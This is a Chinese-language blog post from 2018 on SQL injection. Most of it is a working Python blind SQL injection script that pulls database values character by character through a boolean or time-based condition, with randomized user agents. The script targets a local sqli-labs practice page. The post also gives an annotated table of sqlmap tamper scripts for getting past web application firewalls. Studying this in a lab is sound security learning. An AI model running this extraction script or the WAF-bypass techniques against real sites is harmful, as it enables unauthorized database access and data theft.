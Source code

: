 title: sql injection
date: 2018-04-06 20:19:18
tags: [security,sql]
---
SQL注入,问题经常来源于sql语句字符串拼接的时候未作过滤,其中世界上最好的语言之一——PHP——出现的问题最多.

SQl注入通常用于在线管理自己的数据库👌,臃肿的PhpMyAdmin,需要下载的数据库连接软件.哪里有直接抄起键盘在地址栏直接输入就能管理来的快乐

# 我选择IE6
有比在IE里面上网冲浪更快乐的事情么?
<!--more-->

# 我选择自写脚本
自写脚本更能针对化的对应环境,对于白盒测试~~或者批量~~值得使用.
```python
# coding=utf-8
import string
import time
import requests
import fake_useragent


class Example:

    def __init__(self):
        self.get_table = """select group_concat(distinct table_name) from """ + \
                         """information_schema.columns where table_schema=database()"""
        self.get_database = """select database()"""
        self.get_version = """select @@version"""


def is_success_by_boolen(get_url):
    ua = fake_useragent.UserAgent()
    header = {"User-Agent": ua.random}
    r = requests.get(get_url, headers=header)
    success = "Your Login name"
    if success in r.text:
        return True
    else:
        return False


def is_success_by_time(get_url):
    ua = fake_useragent.UserAgent()
    header = {"User-Agent": ua.random}
    before_time = time.time()
    r = requests.get(get_url, headers=header)
    after_time = time.time()
    offset = after_time - before_time
    success = 8
    if success < offset:
        return True
    else:
        return False


def sql_fun(sql_fun):
    url = r"""http://localhost/sqlilabs/practice/example1.php?id=1' and ({0}) --+"""
    # Timing-based Blind SQL Attacks
    # url = r"""http://localhost/sqlilabs/practice/example1.php?id=1' and if(({0}),sleep(10),0) --+"""

    _long = -1
    out = ""
    for i in range(1, 9999, 1):
        sql = """LENGTH(({0}))={1}""".format(sql_fun, i)
        if is_success_by_boolen(url.format(sql)):
            _long = i
            break
        else:
            pass

    for i in range(1, _long, 1):
        for j in string.printable:#TODO: 二分法优化
            sql = """(substr(({0}),{1},1))=("{2}")""".format(sql_fun, i, j)
            if is_success_by_boolen(url.format(sql)):
                out += '' + j
                break
            else:
                pass
    return out


if __name__ == '__main__':
    print "{0}:  {1}".format(Example().get_version, sql_fun(Example().get_version))

```

# 我选择sqlmap

sqlmap内置有万能的脚本,对于黑盒测试值得使用.

脚本|直译|备注
--|--|--
apostrophemask|单引号伪装|使用*UTF-8*
apostrophenullencode|单引号null编码|用双字节的unicode字符
appendnullbyte|尾部添加null字节|
base64encode|base64编码
between|即*between*|替换 *<* *=* *>*
bluecoat|bypass Blue Coat Systems|老外的公司
chardoubleencode|字符两次编码|即两次url编码
charencode|...|
charunicodeencode|字符unicode编码|即 *%uxxxx* 编码
charunicodeescape|字符unicode转义|即 *\\uxxxx* 编码
commalessmid|mid更少的逗号|MID(A,B,C) --> MID(A FROM B FOR C)
commalesslimit|limit更少的逗号|LIMIT M, N --> LIMIT N OFFSET M
commentbeforeparentheses|括号之前注释|
concat2concatws|concat --> concat_ws|
equaltolike|*=* --> *like*|
escapequotes|转义引号|引号前面加 **\\\\**  (意义?)
greatest|GREATEST()|返回参数的最大值,用于替换*and*后的 *>*
halfversionedmorekeywords|_更多的关键字在一半的版本上_(?)|即加注释,如 */\*!0UNION*<br/>(MySQL < 5.1)
htmlencode|html编码|即 *&#xx;* 编码
ifnull2casewhenisnull|IFNULL() -->CASE WHEN ISNULL()|没见过的操作
ifnull2ifisnull|IFNULL()-->IF ISNULL()|...
informationschemacomment|information_schema注释|information_schema/**/.table
least|LEAST()|返回参数的最小值,用于替换*and*后的 *>*
lowercase|小写|
modsecurityversioned|_ModSecurity版本_(?)|开源的WAF
modsecurityzeroversioned|_ModSecurity零版本_(?)|..
multiplespaces|多个空格|就是瞎鸡儿加空格
nonrecursivereplacement|非递归替换|union --> uni**union**on
overlongutf8|超长的UTF-8|即 *%xx%xx* 编码(不转换字母)
overlongutf8more|更长的UTF-8|即 *%xx%xx* 编码...(转换字母)
percentage|百分号|select --> S%E%L%E%C%T
plus2concat| + --> CONCAT() |适用于(char(x)+char(x))
plus2fnconcat| + --> {fn CONCAT()}|ODBC only
randomcase|随机大小写|
randomcomments|随机注释|__/**/__
securesphere|SecureSphere|WAF
sp_password|sp_password|日志
space2*|spacee -> *
symboliclogical|逻辑符号|AND/OR -> &&/&Iota;&Iota;
unionalltounion|union all -> union|
unmagicquotes|魔术引号|即%bf%27,神奇的**縗'**
uppercase|大写|
varnish|Varnish|WAF
versionedkeywords|_版本的关键字_(?)|即/!*select/,不包括函数
versionedmorekeywords|_更多的版本的关键字_(?)|即/!*select/,包括函数
xforwardedfor|X-Forwarded-For|

# 我选择"啊D"
是...是大佬呢...

<!--小弟我对大佬你的景仰犹如滔滔江水连绵不绝又如黄河泛滥一发不可收拾天地可证日月可鉴。-->

# <p style="font-size:16px">参考链接:</p>

[Sql中操纵字符串的函数方法](https://mariadb.com/kb/en/library/string-functions/)

[SQLMap Tamper Scripts (SQL Injection and WAF bypass)](https://forum.bugcrowd.com/t/sqlmap-tamper-scripts-sql-injection-and-waf-bypass/423)